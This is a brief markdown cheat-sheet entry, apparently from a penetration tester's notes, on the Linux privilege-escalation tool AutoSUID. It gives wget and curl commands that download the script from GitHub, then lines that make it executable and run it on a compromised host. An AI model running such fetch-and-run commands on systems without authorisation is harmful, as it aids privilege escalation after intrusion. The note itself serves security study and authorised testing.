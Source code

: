 # Offensive Tools

Search Tag(s): #post-exploitation #privilege-escalation #offensive-tools #linux

## 01 - Download Cradle

```
$ wget https://raw.githubusercontent.com/IvanGlinkin/AutoSUID/refs/heads/main/AutoSUID.sh

$ curl -o AutoSUID.sh https://raw.githubusercontent.com/IvanGlinkin/AutoSUID/refs/heads/main/AutoSUID.sh
```

## 02 - Usage

```
$ chmod +x AutoSUID.sh

$ ./AutoSUID.sh
```

---
## References

- [IvanGlinkin: AutoSUID](https://github.com/IvanGlinkin/AutoSUID)